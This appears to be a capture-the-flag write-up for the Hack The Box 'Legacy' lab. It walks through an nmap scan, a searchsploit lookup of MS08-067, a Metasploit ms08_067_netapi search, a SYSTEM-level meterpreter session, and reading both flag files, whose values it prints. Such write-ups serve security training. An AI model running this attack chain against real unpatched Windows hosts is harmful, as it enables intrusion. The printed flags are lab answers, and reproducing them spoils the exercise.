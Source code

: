 ## Legacy

### Lab Details 

- Difficulty: Easy
- Type: SMB, Priv Esc, Windows

#### Tasks
Q1: How many TCP ports are open on Legacy?
 - run nmap `nmap -sT -T4 -vv -A -p- -Pn -oA Legacy 10.10.10.4`
```
<snip>
PORT    STATE SERVICE      REASON  VERSION
135/tcp open  msrpc        syn-ack Microsoft Windows RPC
139/tcp open  netbios-ssn  syn-ack Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds syn-ack Windows XP microsoft-ds
<snip>
```

Q2: What is the 2008 CVE ID for a vulnerability in SMB that allows for remote code execution?
- search for MS08 using searchsploit
```
------------------------------------------------------------------------------------------------- --------------------------------
 Exploit Title                                                                                   |  Path
------------------------------------------------------------------------------------------------- --------------------------------
<snip>
Microsoft Windows Server - Code Execution (MS08-067)                                             | windows/remote/7104.c
Microsoft Windows Server - Code Execution (PoC) (MS08-067)                                       | windows/dos/6824.txt
Microsoft Windows Server - Service Relative Path Stack Corruption (MS08-067) (Metasploit)        | windows/remote/16362.rb
Microsoft Windows Server - Universal Code Execution (MS08-067)                                   | windows/remote/6841.txt
Microsoft Windows Server 2000/2003 - Code Execution (MS08-067)                                   | windows/remote/7132.py
<snip>
------------------------------------------------------------------------------------------------- --------------------------------
```

Q3: What is the name of the Metasploit module that exploits CVE-2008-4250?
- search for `MS08_067` in msfconsole
```
msf6 exploit(windows/smb/ms08_067_netapi) > search ms08_067

Matching Modules
================

   #   Name                                                             Disclosure Date  Rank   Check  Description
   -   ----                                                             ---------------  ----   -----  -----------
   0   exploit/windows/smb/ms08_067_netapi                              2008-10-28       great  Yes    MS08-067 Microsoft Server Service Relative Path Stack
<snip>

msf6 exploit(windows/smb/ms08_067_netapi) > search windows xp 2008
<snip>
116  exploit/windows/smb/ms08_067_netapi                                                                  2008-10-28       great      Yes    MS08-067 Microsoft Server Service Relative Path Stack Corruption
   117    \_ target: Automatic Targeting                                                                     .                .          .      .
   118    \_ target: Windows 2000 Universal                                                                  .                .          .      .
   119    \_ target: Windows XP SP0/SP1 Universal                                                            .                .          .      .
   120    \_ target: Windows 2003 SP0 Universal                                                              .                .          .      .
   121    \_ target: Windows XP SP2 English (AlwaysOn NX)                                                    .                .          .      .
   122    \_ target: Windows XP SP2 English (NX)                                                             .                .          .      .
<snip>
```

Q4: When exploiting MS08-067, what user does execution run as? Include the information before and after the .
```
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```
Q5: Sumit flags in user.txt and root.txt 
```
C:\>cd "Documents and Settings"

C:\Documents and Settings>dir
 Volume in drive C has no label.
 Volume Serial Number is 54BF-723B

 Directory of C:\Documents and Settings

16/03/2017  09:07 ��    <DIR>          .
16/03/2017  09:07 ��    <DIR>          ..
16/03/2017  09:07 ��    <DIR>          Administrator
16/03/2017  08:29 ��    <DIR>          All Users
16/03/2017  08:33 ��    <DIR>          john
               0 File(s)              0 bytes
               5 Dir(s)   6.326.054.912 bytes free

C:\Documents and Settings>type john\Desktop\user.txt
type john\Desktop\user.txt
e69af0e4f443de7e36876fda4ec7644f
C:\Documents and Settings>type administrator\desktop\root.txt
type administrator\desktop\root.txt
993442d258b0e0ec917cae9e695d5713
```


#### Resources

#### Lesson Learned
